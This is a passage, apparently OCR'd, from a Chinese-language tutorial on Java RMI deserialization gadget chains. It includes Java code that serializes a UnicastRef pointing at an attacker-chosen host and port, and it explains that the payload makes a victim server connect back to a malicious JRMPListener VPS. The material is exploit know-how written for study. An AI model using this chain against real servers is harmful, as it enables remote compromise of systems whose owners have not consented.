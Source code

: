         ObjID       id  = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te  = new TCPEndpoint(host, port);
        UnicastRef  ref = new UnicastRef(new LiveRef(id, te, false));
    
        serialize(ref);
    }
    // 序列化，返回字节码字符串
    public static String serialize(Object payload) {
        // 创建恶意类
        // 创建文件对象
        ObjectOutputStream out = null;
        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            out = new ObjectOutputStream(byteArrayOutputStream);
            out.writeObject(payload);
            return Arrays.toString(byteArrayOutputStream.toByteArray());
        } catch (IOException e) {
            throw new RuntimeException(e);
        } finally {
            try {
                if (out != null) {
                    out.flush();
                    out.close();
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
    }
    ```

4. 这个链通过攻击方发到受害者服务器，从而让受害者服务器反向发起对恶意 VPS（JRMPListener）的请求。

    > 这条链是 lpwd 师傅提交的利用链，是在 ysoserial 的精简，也就是下面要说的链。

### 3.3 `RemoteObject`

1. `RemoteObject` 是几乎所有 RMI 远程调用类的父类。这个类也可以用来触发反序列化漏洞。来看一下它的 `readObject()`：
